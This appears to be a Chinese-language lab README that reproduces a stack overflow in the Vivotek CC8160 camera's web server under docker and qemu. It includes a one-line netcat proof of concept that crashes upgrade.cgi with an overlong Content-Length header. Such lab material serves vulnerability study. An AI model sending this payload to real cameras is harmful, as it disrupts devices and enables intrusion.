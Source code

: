 # Vivotek CC8160 栈溢出漏洞

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞服务）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armel`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/CC8160-VVTK-0100d.flash.pkg"
```

### 用户模拟

构建并启动漏洞环境：

```sh
# 构建镜像
$ docker-compose -f docker-compose-user.yml build

# 启动容器
$ docker-compose -f docker-compose-user.yml up
```

### 系统模拟

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 等待启动完成，重新打开一个窗口
$ docker exec -it vivotek-system /bin/bash

$ ssh root@192.168.2.2
```

## 漏洞复现

```sh
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 127.0.0.1 8888
```

![img](./crash.png)

## 参考链接

- https://www.exploit-db.com/exploits/44001
- https://xz.aliyun.com/t/5054
- https://www.anquanke.com/post/id/185336
- https://paper.seebug.org/480/
